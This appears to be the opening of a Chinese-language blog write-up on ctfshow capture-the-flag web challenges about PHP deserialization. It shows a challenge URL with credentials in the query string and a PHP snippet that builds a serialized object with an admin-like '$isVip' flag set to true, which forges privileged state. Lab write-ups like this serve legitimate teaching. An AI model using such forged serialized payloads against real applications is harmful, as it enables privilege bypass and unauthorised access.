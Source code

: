 ```yaml
---
title: "ctfshow Web入门[反序列化] Writeup"
date: 2022-08-16T15:49:49+08:00
draft: false
author: "X1r0z"

tags: ['php', 'python', 'ctf']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


PHP 和 Python 的反序列化

Yii, Laravel, ThinkPHP 框架的题还没来得及做... 后面补上



## web254

![20220814113351](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220814113351.png)

???

```
http://95d10ced-6ff7-47a7-811b-9e73df797b99.challenge.ctf.show/?username=xxxxxx&password=xxxxxx
```

## web255

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141137658.png)

简单的反序列化, 注意改变 `$isVip` 的值

```php
<?php

class ctfShowUser{
    public $isVip = true;
};

echo serialize(new ctfShowUser());

?>
```
